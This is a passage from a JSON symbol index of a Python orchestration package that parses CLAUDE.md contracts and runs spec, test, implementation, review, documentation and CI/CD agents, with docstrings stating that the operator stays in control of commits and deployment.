bdd agent produced for tech debt and security gaps the DoD validators catch. The pass generates a fix plan and writes a refactor proposal the operator can review. The pass never mutates source by itself; the operator is the only one who applies the fix.  The pass is intentionally narrow. The DoD is enforced by the reviewer. The boy scout pass focuses on the cleanup that does not change behaviour: removed unused imports, deduplicated literals, and the documentation drift.", "id": "skills/claude_md_orchestrator/boy_scout.py", "kind": "module", "label": "boy_scout.py", "language": "py", "sha256": "a62e8e27f358a43b", "symbol_count": 5, "symbols": [{"doc": "Outcome of a boy scout pass.\n\nAttributes:\n    contract_id: Identifier of the contract the pass ran for.\n    findings: Findings the pass collected.\n    proposal: Free form text the operator can read before\n        applying the refactor.", "kind": "class", "line": 30, "name": "ScoutReport", "signature": "class ScoutReport"}, {"doc": "Run a deeper inspection on one source file.", "kind": "function", "line": 45, "name": "_inspect", "signature": "def _inspect(path)"}, {"doc": "Render the human facing proposal text.", "kind": "function", "line": 73, "name": "_render_proposal", "signature": "def _render_proposal(contract, findings)"}, {"doc": "Run the boy scout pass for one contract.\n\nArgs:\n    state: Per contract state the pass reads the artifacts from.\n    config: Active runtime configuration.\nReturns:\n    The structured report the orchestrator persists.", "kind": "function", "line": 90, "name": "run", "signature": "def run(state, config)"}, {"doc": "Persist the boy scout proposal to disk.", "kind": "function", "line": 110, "name": "write_report", "signature": "def write_report(report, config)"}]}, {"doc": "CI and CD agent.  The agent cuts a feature branch, stages the artifacts, prepares the CI pipeline, and writes the PR body. The agent never pushes and never deploys. The deploy gate is closed by default. The orchestrator only opens the gate when the operator supplies the deploy gate token.  The pipeline file is a real GitHub Actions workflow. The agent keeps the workflow minimal and explicit. The workflow runs ruff, mypy, bandit, and pytest. The workflow fails when any of those return a non zero exit code. The agent does not invent matrix builds or release pipelines. The skill stays portable across LazyOwn releases.", "id": "skills/claude_md_orchestrator/cicd_agent.py", "kind": "module", "label": "cicd_agent.py", "language": "py", "sha256": "5b1db2a4dc4c3410", "symbol_count": 7, "symbols": [{"doc": "Outcome of the CI and CD agent.\n\nAttributes:\n    branch: Name of the feature branch the agent cut.\n    pipeline_path: Absolute path of the workflow file.\n    pr_body_path: Absolute path of the PR body file.\n    deployed: True when the deploy gate was open and the agent\n        ran the deploy command. The default leaves the gate\n        closed.\n    findings: DoD findings the agent collected.", "kind": "class", "line": 71, "name": "CicdResult", "signature": "class CicdResult"}, {"doc": "Return a safe slug for the branch name.", "kind": "function", "line": 91, "name": "_slug", "signature": "def _slug(contract)"}, {"doc": "Run a git command and return the captured output.", "kind": "function", "line": 97, "name": "_git", "signature": "def _git()"}, {"doc": "Create the feature branch from the base branch.\n\nArgs:\n    contract: The contract the branch will carry.\n    config: Active runtime configuration.\nReturns:\n    The branch name the agent cut.", "kind": "function", "line": 108, "name": "_ensure_branch", "signature": "def _ensure_branch(contract, config)"}, {"doc": "Render the workflow body the agent writes to disk.", "kind": "function", "line": 134, "name": "_render_pipeline", "signature": "def _render_pipeline(contract, spec, config)"}, {"doc": "Render the PR body the agent writes to disk.", "kind": "function", "line": 144, "name": "_render_pr_body", "signature": "def _render_pr_body(contract, spec, report)"}, {"doc": "Run the CI and CD agent for one contract.\n\nArgs:\n    contract: The contract the cycle finished.\n    spec: The spec the implementation satisfies.\n    report: The review report. The agent only ships when the\n        report is approved.\n    config: Active runtime configuration.\n    auto_commit: When True the agent stages the artifacts and\n        commits them on the feature branch. The default keeps\n        the operator in control of the commit boundary.\n    deploy_token: Shared secret the agent checks before it runs\n        any deploy command. The gate is closed when the value is\n        None or empty.\nReturns:\n    The result the orchestrator persists. The deployed flag is\n    always False in the default posture.", "kind": "function", "line": 177, "name": "run", "signature": "def run(contract, spec, report, config)"}]}, {"doc": "Centralized configuration for the claude_md_orchestrator skill.  The orchestrator reads every runtime value from this module. Tests and runtime both consume the same dataclass. The defaults point to a local run directory inside the skill so a fresh checkout is runnable without external state. The orchestrator may override any field at construction time.", "id": "skills/claude_md_orchestrator/config.py", "kind": "module", "label": "config.py", "language": "py", "sha256": "de29c6c18d39dc1d", "symbol_count": 15, "symbols": [{"doc": "Return the absolute path of the LazyOwn repository root.\n\nThe skill lives at skills/claude_md_orchestrator/. The repository root\nis two parents above the package directory. The orchestrator may\noverride this value through the LAZYOWN_REPO_ROOT environment variable\nso the same code runs in CI and in a developer checkout.", "kind": "function", "line": 22, "name": "_repo_root", "signature": "def _repo_root()"}, {"doc": "Return the absolute path of the orchestrator run directory.\n\nThe directory holds specs, tests, sources, reviews, docs, and the\ncycle state file. The path is computed from the repository root so\nthe skill stays portable across checkouts. The orchestrator may\noverride the value through the LAZYOWN_ORCH_RUN_DIR environment\nvariable.", "kind": "function", "line": 37, "name": "_default_run_dir", "signature": "def _default_run_dir()"}, {"doc": "Return the absolute path of the CLAUDE.md that the parser consumes.\n\nThe default points at the canonical LazyOwn CLAUDE.md. The orchestrator\nmay override the value through the LAZYOWN_CLAUDE_MD_PATH environment\nvariable so the same skill can drive a feature on any markdown file\nthat follows the same shape.", "kind": "function", "line": 52, "name": "_default_claude_md", "signature": "def _default_claude_md()"}, {"doc": "Runtime configuration for the orchestrator.\n\nAttributes:\n    repo_root: Absolute path of the LazyOwn repository.\n    run_dir: Absolute path of the working directory for the active\n        cycle. The orchestrator creates the subdirectories specs,\n        tests, src, review, docs, and logs under this root.\n    claude_md_path: Absolute path of the markdown file the parser\n        consumes.\n    base_branch: Branch from which the cicd agent cuts the feature\n        branch. The default follows the LazyOwn branching model.\n    feature_branch_prefix: Prefix the cicd agent prepends to every\n        feature branch it cuts.\n    max_sad_paths: Minimum number of sad paths the spec writer must\n        document. The DoD enforces six.\n    test_min_red_seconds: Lower bound the orchestrator enforces on\n        the red stage so a flaky runner cannot race through.\n    reviewer_strict: When True the reviewer treats every warning as\n        a blocker. When False the reviewer reports non blockers and\n        lets the operator decide.\n    llm_backend: Identifier of the LLM backend the agents use. The\n        value comes from the LazyOwn llm_factory module when\n        available. The orchestrator falls back to the mock template\n        engine when the value is empty or unknown.\n    deploy_gate_token: Shared secret the cicd agent checks before it\n        calls any deploy tool. The orchestrator reads the value from\n        the LAZYOWN_DEPLOY_GATE_TOKEN environment variable. A\n        missing token keeps the gate closed by design.\n    verbose: When True the orchestrator prints a stage banner to\n        stderr after every transition.", "kind": "class", "line": 67, "name": "Config", "signature": "class Config"}, {"doc": "Build a Config from environment variables and return it.\n\nThe function never mutates global state. It exists so the test\nsuite and the CLI entry point share the same resolution path.", "kind": "function", "line": 155, "name": "load_config", "signature": "def load_config()"}, {"doc": "Return the environment value for a key or None when missing.\n\nThe helper keeps the call sites free of repeated os.environ lookups\nso the production code reads as a single conditional.", "kind": "function", "line": 164, "name": "resolve_optional", "signature": "def resolve_optional(config, key)"}, {"doc": "Create the run subdirectories if they do not exist.\n\nThe orchestrator calls this method before it dispatches the\nfirst agent so downstream agents can write without checking the\nfilesystem.", "kind": "method", "line": 112, "name": "ensure", "signature": "def ensure(self)"}, {"doc": "Return the absolute path of the cycle state file.", "kind": "method", "line": 122, "name": "state_path", "signature": "def state_path(self)"}, {"doc": "Return the absolute path of the spec directory.", "kind": "method", "line": 126, "name": "specs_dir", "signature": "def specs_dir(self)"}, {"doc": "Return the absolute path of the test directory.", "kind": "method", "line": 130, "name": "tests_dir", "signature": "def tests_dir(self)"}, {"doc": "Return the absolute path of the implementation directory.", "kind": "method", "line": 134, "name": "src_dir", "signature": "def src_dir(self)"}, {"doc": "Return the absolute path of the review directory.", "kind": "method", "line": 138, "name": "review_dir", "signature": "def review_dir(self)"}, {"doc": "Return the absolute path of the documentation directory.", "kind": "method", "line": 142, "name": "docs_dir", "signature": "def docs_dir(self)"}, {"doc": "Return the absolute path of the log directory.", "kind": "method", "line": 146, "name": "logs_dir", "signature": "def logs_dir(self)"}, {"doc": "Return the absolute path of the JSONL log for the active run.", "kind": "method", "line": 150, "name": "log_path", "signature": "def log_path(self)"}]}, {"doc": "Documentation agent.  The agent writes the user facing documentation for a contract. The output is first person scientific English. The agent never uses emoji or em dash. The agent never uses grand claims that the tests do not back. The output is a markdown block wrapped in a triple backtick fence, ready for copy and paste, signed by grisun0.  The agent is deterministic. The LLM enrichment is optional and runs only when the operator configures a backend. The default template captures the metadata the orchestrator already knows, so the documentation is reproducible.", "id": "skills/claude_md_orchestrator/documentation_agent.py", "kind": "module", "label": "documentation_agent.py", "language": "py", "sha256": "4b09b0150830460e", "symbol_count": 7, "symbols": [{"doc": "Outcome of the documentation agent.\n\nAttributes:\n    path: Absolute path of the doc file the agent wrote.\n    body: The rendered markdown body inside the fence.", "kind": "class", "line": 28, "name": "DocResult", "signature": "class DocResult"}, {"doc": "Render the inputs section as a bullet list.", "kind": "function", "line": 40, "name": "_format_inputs", "signature": "def _format_inputs(spec)"}, {"doc": "Render the sad paths section as a bullet list.", "kind": "function", "line": 47, "name": "_format_sad_paths", "signature": "def _format_sad_paths(spec)"}, {"doc": "Render the review summary as a bullet list.", "kind": "function", "line": 54, "name": "_format_review", "signature": "def _format_review(report)"}, {"doc": "Render the markdown body inside the fence.", "kind": "function", "line": 68, "name": "_render", "signature": "def _render(contract, spec, report)"}, {"doc": "Wrap the body in a markdown fence.", "kind": "function", "line": 118, "name": "_wrap", "signature": "def _wrap(body)"}, {"doc": "Run the documentation agent for one contract.\n\nArgs:\n    contract: The contract the spec implements.\n    spec: The spec the documentation covers.\n    report: The review report the documentation summarises.\n        Pass None when the reviewer has not run yet.\n    config: Active runtime configuration.\nReturns:\n    The result the orchestrator persists. The path points at a\n    markdown file that the operator can copy and paste into the\n    repository docs.", "kind": "function", "line": 123, "name": "run", "signature": "def run(contract, spec, report, config)"}]}, {"doc": "Data models for the claude_md_orchestrator skill.  The orchestrator is a pure data pipeline. Every agent reads its inputs from disk, mutates an immutable dataclass, and writes the result back to disk. The shape of those dataclasses is the contract between the agents.", "id": "skills/claude_md_orchestrator/models.py", "kind": "module", "label": "models.py", "language": "py", "sha256": "cf88636b2f883095", "symbol_count": 32, "symbols": [{"doc": "Return the current UTC time as an ISO 8601 string.\n\nThe helper centralises timestamp formatting so the JSONL log stays\nconsistent across agents and runs.", "kind": "function", "line": 19, "name": "_now_iso", "signature": "def _now_iso()"}, {"doc": "Pipeline stages the orchestrator walks through in order.\n\nMembers:\n    PENDING: the contract has been parsed but no agent has run.\n    SDD: the spec agent has produced the spec.\n    TDD: the test agent has produced the failing tests.\n    BDD: the implementation agent has produced the source.\n    REVIEW: the reviewer agent has produced the report.\n    CICD: the cicd agent has produced the branch and the pipeline.\n    DONE: every stage finished and the human signalled deploy.", "kind": "class", "line": 28, "name": "Stage", "signature": "class Stage(StrEnum)"}, {"doc": "Severity levels the reviewer emits.\n\nMembers:\n    INFO: cosmetic note. Never a blocker.\n    WARN: deviation from the DoD that the boy scout can fix in a\n        follow up. The reviewer reports it but lets the cycle\n        continue when reviewer_strict is False.\n    BLOCK: violation of the DoD. The cycle halts until the agent\n        fixes the artifact.", "kind": "class", "line": 50, "name": "Severity", "signature": "class Severity(StrEnum)"}, {"doc": "A single actionable contract parsed from CLAUDE.md.\n\nAttributes:\n    contract_id: Stable identifier the orchestrator uses to wire\n        the files together. The parser derives the value from the\n        markdown section number when present.\n    title: Short label the agents log with.\n    rationale: One paragraph that explains why the contract exists.\n    scope: Bullet list of what the contract must deliver.\n    source_section: Heading path inside CLAUDE.md the parser\n        extracted the contract from.\n    raw_text: Verbatim markdown the parser used. Kept so the\n        documentation agent can quote the source.", "kind": "class", "line": 68, "name": "Contract", "signature": "class Contract"}, {"doc": "A single failure scenario a spec must cover.\n\nAttributes:\n    condition: Human readable trigger.\n    expected: Expected behaviour the implementation must produce.", "kind": "class", "line": 109, "name": "SadPath", "signature": "class SadPath"}, {"doc": "Spec-Driven Development output for one contract.\n\nAttributes:\n    contract_id: Contract this spec implements.\n    goal: One line summary.\n    trigger: Observable trigger the spec covers.\n    inputs: List of inputs the implementation consumes.\n    happy_path: Ordered steps the implementation must follow on\n        the happy path.\n    sad_paths: At least six failure scenarios.\n    data_flow: Free form description of the data flow.\n    observability: Free form description of how the operator\n        observes success.\n    out_of_scope: Bullet list of what the contract does not\n        cover.\n    author: Author of the spec. Defaults to the orchestrator.\n    created_at: ISO 8601 timestamp.", "kind": "class", "line": 134, "name": "Spec", "signature": "class Spec"}, {"doc": "Test-Driven Development output for one contract.\n\nAttributes:\n    contract_id: Contract this test suite covers.\n    test_path: Absolute path of the pytest module.\n    expected_outcome: Outcome the agent expects from pytest. The\n        orchestrator checks the value before advancing. The value\n        is RED for the tdd agent and GREEN for the bdd agent.\n    test_names: Names of the test functions the agent produced.\n    duration_seconds: Wall clock duration of the pytest run.", "kind": "class", "line": 217, "name": "TestSuite", "signature": "class TestSuite"}, {"doc": "Single review finding.\n\nAttributes:\n    severity: Severity of the finding.\n    rule: Identifier of the rule the agent broke.\n    message: Human readable description.\n    path: Relative path of the file the finding refers to.", "kind": "class", "line": 255, "name": "Finding", "signature": "class Finding"}, {"doc": "Reviewer agent output for one contract.\n\nAttributes:\n    contract_id: Contract this report covers.\n    approved: True when the reviewer has no blockers. The orchestrator\n        advances to the next stage only when approved is True.\n    findings: List of findings the reviewer collected.\n    ruff_exit: Exit code of the ruff run.\n    mypy_exit: Exit code of the mypy run.\n    bandit_exit: Exit code of the bandit run.\n    pytest_exit: Exit code of the pytest run.\n    summary: Short text the operator reads first.", "kind": "class", "line": 291, "name": "ReviewReport", "signature": "class ReviewReport"}, {"doc": "State of a single contract through the pipeline.\n\nAttributes:\n    contract: The contract the cycle processes.\n    stage: The stage the contract is currently in.\n    spec_path: Absolute path of the spec file.\n    test_path: Absolute path of the test file.\n    src_path: Absolute path of the source file.\n    review_path: Absolute path of the review report.\n    doc_path: Absolute path of the documentation file.\n    branch_name: Name of the feature branch the cicd agent cut.\n    pipeline_path: Absolute path of the CI pipeline file.\n    pr_body_path: Absolute path of the PR body file.\n    approved: True when the reviewer approved the contract.\n    deployed: True when the human signalled deploy.\n    started_at: ISO 8601 timestamp when the cycle started.\n    updated_at: ISO 8601 timestamp when the last stage finished.", "kind": "class", "line": 348, "name": "CicleState", "signature": "class CicleState"}, {"doc": "Top level state the orchestrator persists to disk.\n\nAttributes:\n    run_id: Identifier of the run. Defaults to the run directory\n        name so a developer can tell runs apart at a glance.\n    started_at: ISO 8601 timestamp when the run started.\n    updated_at: ISO 8601 timestamp when the last transition ran.\n    contracts: Per contract state keyed by contract_id.", "kind": "class", "line": 424, "name": "CicleStateFile", "signature": "class CicleStateFile"}, {"doc": "Append a single JSONL event to the log file.\n\nArgs:\n    path: Absolute path of the log file.\n    event: JSON friendly dictionary.", "kind": "function", "line": 480, "name": "write_jsonl", "signature": "def write_jsonl(path, event)"}, {"doc": "Return a JSON friendly view of the contract.", "kind": "method", "line": 91, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a Contract from a JSON friendly dictionary.", "kind": "method", "line": 96, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return a JSON friendly view of the sad path.", "kind": "method", "line": 120, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a SadPath from a JSON friendly dictionary.", "kind": "method", "line": 125, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return a JSON friendly view of the spec.", "kind": "method", "line": 166, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a Spec from a JSON friendly dictionary.", "kind": "method", "line": 173, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return the list of DoD violations the spec carries.\n\nArgs:\n    min_sad_paths: Minimum number of sad paths the spec must\n        document.\nReturns:\n    A list of human readable violation messages. Empty list\n    means the spec is compliant.", "kind": "method", "line": 189, "name": "validate", "signature": "def validate(self, min_sad_paths)"}, {"doc": "Return a JSON friendly view of the test suite.", "kind": "method", "line": 236, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a TestSuite from a JSON friendly dictionary.", "kind": "method", "line": 243, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return a JSON friendly view of the finding.", "kind": "method", "line": 270, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a Finding from a JSON friendly dictionary.", "kind": "method", "line": 280, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return the list of blocker findings.", "kind": "method", "line": 315, "name": "blockers", "signature": "def blockers(self)"}, {"doc": "Return a JSON friendly view of the report.", "kind": "method", "line": 319, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a ReviewReport from a JSON friendly dictionary.", "kind": "method", "line": 333, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return a JSON friendly view of the state.", "kind": "method", "line": 383, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a CicleState from a JSON friendly dictionary.", "kind": "method", "line": 402, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Return a JSON friendly view of the state file.", "kind": "method", "line": 440, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a CicleStateFile from a JSON friendly dictionary.", "kind": "method", "line": 450, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Persist the state to disk as pretty JSON.", "kind": "method", "line": 459, "name": "save", "signature": "def save(self, path)"}, {"doc": "Read the state from disk.\n\nArgs:\n    path: Absolute path of the state file.\nReturns:\n    The loaded state. Empty when the file does not exist.", "kind": "method", "line": 467, "name": "load", "signature": "def load(cls, path)"}]}, {"doc": "Orchestrator that wires the agents into a deterministic pipeline.  The orchestrator walks every contract through the same six stages: spec, test red, implementation green, review, cicd, and done. The state is persisted to disk after every stage so a crash resumes the cycle from the last green stage. The orchestrator never blocks on deploy. The deploy gate stays closed by design.", "id": "skills/claude_md_orchestrator/orchestrator.py", "kind": "module", "label": "orchestrator.py", "language": "py", "sha256": "c95340bd12f14f48", "symbol_count": 21, "symbols": [{"doc": "Top level result of running the orchestrator.\n\nAttributes:\n    run_id: Identifier of the run.\n    contracts: Per contract state after the cycle.\n    halted_at: Identifier of the contract the orchestrator halted\n        on. None when every contract reached the DONE stage.\n    halt_reason: Free form text the operator reads to understand\n        why the orchestrator halted.", "kind": "class", "line": 34, "name": "CycleSummary", "signature": "class CycleSummary"}, {"doc": "Print a stage banner to stderr when verbose mode is on.", "kind": "function", "line": 52, "name": "_banner", "signature": "def _banner(message, config)"}, {"doc": "Stamp the summary with a halt reason and return it.", "kind": "function", "line": 59, "name": "_halt", "signature": "def _halt(summary, contract_id, reason)"}, {"doc": "Persist the run state to disk and append a JSONL event.", "kind": "function", "line": 66, "name": "_persist", "signature": "def _persist(state, config)"}, {"doc": "Read the persisted state and return it.", "kind": "function", "line": 84, "name": "_load_state", "signature": "def _load_state(config)"}, {"doc": "Add new contracts to the state without overwriting existing ones.", "kind": "function", "line": 89, "name": "_seed_state", "signature": "def _seed_state(contracts, state)"}, {"doc": "Run the spec agent and update the state.", "kind": "function", "line": 97, "name": "_run_spec", "signature": "def _run_spec(state, config)"}, {"doc": "Run the test agent and update the state.", "kind": "function", "line": 110, "name": "_run_test", "signature": "def _run_test(state, config)"}, {"doc": "Run the implementation agent and update the state.", "kind": "function", "line": 125, "name": "_run_implementation", "signature": "def _run_implementation(state, config)"}, {"doc": "Run the reviewer and update the state.", "kind": "function", "line": 146, "name": "_run_review", "signature": "def _run_review(state, config)"}, {"doc": "Run the documentation agent and update the state.", "kind": "function", "line": 158, "name": "_run_documentation", "signature": "def _run_documentation(state, config)"}, {"doc": "Run the boy scout pass and update the state.", "kind": "function", "line": 174, "name": "_run_scout", "signature": "def _run_scout(state, config)"}, {"doc": "Run the cicd agent and update the state.", "kind": "function", "line": 182, "name": "_run_cicd", "signature": "def _run_cicd(state, config)"}, {"doc": "Load a spec file as YAML and return a Spec dataclass.\n\nArgs:\n    path: Absolute path of the spec file. The file is expected\n        to be valid YAML that maps to the Spec dataclass shape.\nReturns:\n    The loaded Spec.", "kind": "function", "line": 217, "name": "_load_spec", "signature": "def _load_spec(path)"}, {"doc": "Walk one contract through every stage.\n\nArgs:\n    state: Run state the orchestrator mutates.\n    contract_id: Identifier of the contract the stage runs for.\n    config: Active runtime configuration.\n    options: CLI options the orchestrator forwards to the cicd\n        agent.", "kind": "function", "line": 234, "name": "_advance", "signature": "def _advance(state, contract_id, config, options)"}, {"doc": "Run the orchestrator for the current run directory.\n\nArgs:\n    config: Active runtime configuration.\n    options: CLI options the orchestrator forwards to the cicd\n        agent.\nReturns:\n    The cycle summary the CLI prints.", "kind": "function", "line": 275, "name": "run", "signature": "def run(config, options)"}, {"doc": "Print the cycle summary to stdout.", "kind": "function", "line": 301, "name": "_print_summary", "signature": "def _print_summary(summary)"}, {"doc": "Return a JSON friendly view of the summary.", "kind": "function", "line": 306, "name": "summary_to_dict", "signature": "def summary_to_dict(summary)"}, {"doc": "Build the CLI argument parser and return it.", "kind": "function", "line": 324, "name": "_build_parser", "signature": "def _build_parser()"}, {"doc": "Build the seeded contracts the CLI requested.\n\nArgs:\n    args: Parsed CLI arguments.\n    options: Options dict the orchestrator passes to the agents.\nReturns:\n    The list of contracts the operator asked for. The function\n    combines the explicit --seed ids and the --contract-file\n    content the operator supplied.", "kind": "function", "line": 365, "name": "_load_seed_contracts", "signature": "def _load_seed_contracts(args, options)"}, {"doc": "Run the orchestrator CLI and return the process exit code.", "kind": "function", "line": 393, "name": "main", "signature": "def main(argv)"}]}, {"doc": "Parser that turns a CLAUDE.md into actionable contracts.  The parser is deterministic. It does not call any LLM. It walks the markdown as a tree of sections and lifts every actionable bullet that lives under a heading that carries a flag. The flag is the keyword CONTRACT in the heading text. The orchestrator does not assume the markdown is well formed. The parser records every malformed input and returns a structured error alongside the partial result.  The parser also produces the rationale for each contract by combining the parent section text with the first paragraph of the body. The documentation agent can quote the source verbatim.", "id": "skills/claude_md_orchestrator/parser.py", "kind": "module", "label": "parser.py", "language": "py", "sha256": "ac5a1c2cade2bfa9", "symbol_count": 13, "symbols": [{"doc": "Internal node that represents a heading and its body.\n\nAttributes:\n    depth: Heading level. One is the document title.\n    title: Heading text.\n    body: Concatenated text of every paragraph that belongs to the\n        section.\n    children: Subsection nodes. The parser walks the tree in depth\n        first order.", "kind": "class", "line": 34, "name": "_Section", "signature": "class _Section"}, {"doc": "Return a stable identifier for a contract heading.\n\nThe parser prefers an explicit id in the heading text. The id must\nmatch the C-000 shape. When the heading does not carry an explicit\nid, the parser derives a slug from the heading text and falls back\nto a numeric index so two headings with the same slug never share\nan identifier.", "kind": "function", "line": 56, "name": "_derive_contract_id", "signature": "def _derive_contract_id(title, fallback_index)"}, {"doc": "Remove the CONTRACT keyword and any explicit id from the title.\n\nThe marker is metadata. The orchestrator uses the cleaned title\nfor human facing log lines.", "kind": "function", "line": 73, "name": "_strip_contract_marker", "signature": "def _strip_contract_marker(title)"}, {"doc": "Return the document section tree built from the markdown lines.\n\nThe walker keeps a stack of open sections. When a new heading\narrives, the walker closes the deepest section whose depth is\ngreater or equal and attaches the new section as a child of the\nprevious top.", "kind": "function", "line": 85, "name": "_walk_sections", "signature": "def _walk_sections(lines)"}, {"doc": "Return the bullet items inside a section body.\n\nArgs:\n    text: Section body.\nReturns:\n    A list of trimmed bullet strings. Empty list when the body has\n    no bullet list.", "kind": "function", "line": 123, "name": "_collect_bullets", "signature": "def _collect_bullets(text)"}, {"doc": "Return the paragraphs inside a section body.", "kind": "function", "line": 141, "name": "_collect_paragraphs", "signature": "def _collect_paragraphs(text)"}, {"doc": "Return True when a section qualifies as a contract.\n\nThe parser treats a section as a contract when the heading carries\nthe CONTRACT keyword or the body declares an explicit outcomes\nlist. The marker is case insensitive.", "kind": "function", "line": 146, "name": "_is_actionable", "signature": "def _is_actionable(heading)"}, {"doc": "Yield every actionable section in depth first order.", "kind": "function", "line": 159, "name": "_flatten_actionable", "signature": "def _flatten_actionable(root)"}, {"doc": "Parse a CLAUDE.md file and return the list of contracts.\n\nArgs:\n    path: Absolute path of the markdown file.\nReturns:\n    A list of Contract objects. Empty list when the file does not\n    exist or contains no actionable section.\nRaises:\n    FileNotFoundError: when the path is missing.", "kind": "function", "line": 167, "name": "parse_claude_md", "signature": "def parse_claude_md(path)"}, {"doc": "Build a Contract from a programmatic seed dictionary.\n\nTests and the CLI use the helper to inject a contract without\nparsing a markdown file. The seed must carry the keys contract_id,\ntitle, rationale, and scope. scope is a newline separated bullet\nlist.", "kind": "function", "line": 205, "name": "_coerce_seed_contract", "signature": "def _coerce_seed_contract(seed)"}, {"doc": "Return the contracts the orchestrator should process.\n\nArgs:\n    config: Active runtime configuration.\n    seeds: Optional list of seed contracts the caller wants to mix\n        in. The orchestrator uses the seeds when the markdown\n        parser returns zero contracts so the operator can drive\n        the cycle from a focused file.\nReturns:\n    The merged list of contracts. The list is deduplicated by\n    contract_id while preserving the original order.", "kind": "function", "line": 225, "name": "load_contracts", "signature": "def load_contracts(config, seeds)"}, {"kind": "method", "line": 51, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"kind": "function", "line": 97, "name": "flush_body", "signature": "def flush_body()"}]}, {"doc": "Code Reviewer and Quality Assurance agent.  The agent runs the static analyzers the LazyOwn repository already configures. The agent collects the DoD findings every analyzer emits plus the findings the in house validators emit. The agent approves the contract when the report carries zero blockers. The orchestrator advances only when the report is approved.  The agent never blocks on warnings when the strict flag is False. The agent always blocks on a non zero exit code from any analyzer.", "id": "skills/claude_md_orchestrator/reviewer_agent.py", "kind": "module", "label": "reviewer_agent.py", "language": "py", "sha256": "dff9a0952c813072", "symbol_count": 10, "symbols": [{"doc": "Outcome of running one external analyzer.\n\nAttributes:\n    tool: Name of the analyzer.\n    exit_code: Return code of the analyzer.\n    stdout: Captured stdout.\n    stderr: Captured stderr.", "kind": "class", "line": 30, "name": "AnalyzerResult", "signature": "class AnalyzerResult"}, {"doc": "Run an external analyzer and return the captured output.\n\nArgs:\n    cmd: Command line arguments.\n    cwd: Working directory the analyzer uses.\nReturns:\n    The analyzer result. The function never raises. A missing\n    tool is recorded with exit code 127 and an explanatory\n    stderr line so the reviewer can mark the finding as a warn.", "kind": "function", "line": 46, "name": "_run", "signature": "def _run(cmd, cwd)"}, {"doc": "Collect the artifacts the reviewer must inspect.\n\nArgs:\n    state: Per contract state the reviewer uses to find files.\n    config: Active runtime configuration.\nReturns:\n    A list of absolute paths. Empty list when nothing is present.", "kind": "function", "line": 72, "name": "_resolve_targets", "signature": "def _resolve_targets(state, config)"}, {"doc": "Translate an analyzer output into a list of findings.\n\nArgs:\n    result: The analyzer result to translate.\n    path_prefix: Prefix the reviewer prepends to every finding\n        path.\nReturns:\n    The findings. The translation is best effort. The reviewer\n    records one finding per non empty line of stderr. The exit\n    code only escalates a finding to BLOCK when the analyzer\n    reports at least one line.", "kind": "function", "line": 88, "name": "_parse_tool_findings", "signature": "def _parse_tool_findings(result, path_prefix)"}, {"doc": "Run ruff when the binary is available.", "kind": "function", "line": 121, "name": "_run_ruff", "signature": "def _run_ruff(targets, cwd)"}, {"doc": "Run mypy when the binary is available.", "kind": "function", "line": 134, "name": "_run_mypy", "signature": "def _run_mypy(targets, cwd)"}, {"doc": "Run bandit when the binary is available.", "kind": "function", "line": 147, "name": "_run_bandit", "signature": "def _run_bandit(targets, cwd)"}, {"doc": "Run pytest against the test module to confirm green.", "kind": "function", "line": 160, "name": "_run_pytest", "signature": "def _run_pytest(targets, cwd)"}, {"doc": "Run the reviewer for one contract.\n\nArgs:\n    state: Per contract state the reviewer reads the artifacts\n        from.\n    config: Active runtime configuration.\nReturns:\n    The structured review report. The report carries the\n    analyzer exit codes, the in house DoD findings, and a\n    boolean approved flag the orchestrator consumes.", "kind": "function", "line": 171, "name": "run", "signature": "def run(state, config)"}, {"doc": "Persist the report as JSON inside the run review directory.", "kind": "function", "line": 225, "name": "write_report", "signature": "def write_report(report, config)"}]}, {"doc": "Spec-Driven Development agent.  The agent lifts a Contract into a Spec. The agent is deterministic so the orchestrator can replay the same contract and produce the same spec. The agent uses the LazyOwn LLM factory when a backend identifier is configured in payload.json. When the backend is missing or fails, the agent falls back to a structured template that the operator can review and amend.  The agent writes the spec as YAML. YAML is the lingua franca for the infrastructure that consumes the spec, including the test agent and the CI pipeline.", "id": "skills/claude_md_orchestrator/sdd_agent.py", "kind": "module", "label": "sdd_agent.py", "language": "py", "sha256": "f63ed1e9d199b23c", "symbol_count": 6, "symbols": [{"doc": "Outcome of running the spec agent.\n\nAttributes:\n    spec: The spec the agent produced.\n    path: Absolute path of the YAML file the agent wrote.\n    findings: DoD findings the agent collected while it wrote the\n        spec. The orchestrator halts when the list carries a\n        blocker.", "kind": "class", "line": 40, "name": "SddResult", "signature": "class SddResult"}, {"doc": "Split the contract scope into inputs and a baseline sad path set.\n\nThe parser lifts bullets from the markdown body. The agent does not\nknow whether a bullet is an input, an outcome, or a sad path. The\nhelper uses a simple heuristic: a bullet that starts with a verb in\nimperative form becomes a happy path step. A bullet that contains\nthe words fail, error, or refuse becomes a sad path.", "kind": "function", "line": 56, "name": "_coerce_scope", "signature": "def _coerce_scope(scope)"}, {"doc": "Build a deterministic Spec for a Contract.\n\nArgs:\n    contract: The contract the spec implements.\n    min_sad_paths: Minimum number of sad paths the spec must carry.\nReturns:\n    The composed spec. The agent never returns an empty spec.", "kind": "function", "line": 81, "name": "_compose_spec", "signature": "def _compose_spec(contract, min_sad_paths)"}, {"doc": "Render the spec as YAML and return the rendered text.", "kind": "function", "line": 130, "name": "_render_yaml", "signature": "def _render_yaml(spec)"}, {"doc": "Ask the LazyOwn LLM factory to enrich the spec.\n\nArgs:\n    contract: The contract the agent is composing.\n    backend: Identifier of the LLM backend.\nReturns:\n    The enriched spec when the backend answered with a JSON object\n    that matches the spec shape. None when the backend is not\n    configured or returned an unparsable payload.", 